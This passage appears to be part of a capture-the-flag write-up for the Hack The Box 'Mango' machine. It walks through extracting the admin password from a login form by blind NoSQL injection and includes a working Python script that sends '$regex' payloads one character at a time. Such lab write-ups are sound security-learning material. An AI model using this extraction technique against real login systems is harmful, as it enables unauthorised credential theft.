 Notice how this request now returns `location: home.php` in the HTTP response. Now browsing to `home.php` shows the following:

![web3](./mango/web3.png)

Not much to see here... Instead try to extract the password field for the `admin` user over NoSQL injection:

- https://book.hacktricks.xyz/pentesting-web/nosql-injection#extract-length-information

This becomes the following Python:

- **NOTE:** Trick here is escaping regex special characters in the request since the passwords in the backend DB may be hashed _or_ in plaintext: https://www3.ntu.edu.sg/home/ehchua/programming/howto/Regexe.html

```python
import string
import requests

TARGET = 'http://staging-order.mango.htb/index.php'
POOL = [c for c in string.printable if c not in string.whitespace]
REGEX_SPECIAL = ['.', '+', '*', '?', '^', '$', '(', ')', '[', ']', '{', '}', '|', '\\']

password = []
while True:
  done = False
  for c in POOL:
    s = requests.session()
    r = s.get(TARGET)
    # handle regex special characters
    if c in REGEX_SPECIAL:
      c = '\\' + c
    regex = '^' + ''.join(password) + c + '.*$'
    print(f'\r[.] Trying {"".join(password)}{c} ({regex}) ...', end='')
    r = s.post(TARGET, data={
      'username[$eq]': 'admin',
      'password[$regex]': regex,
      'login': 'login',
    })
    if 'Log in for ordering Sweet & Juicy Mango.' not in r.text:
      # handle regex special characters
      if c in REGEX_SPECIAL:
        password.append('\\' + c)
      else:
        password.append(c)
      print(f'\n[*] password: {"".join(password)}')
      done = True
      break
```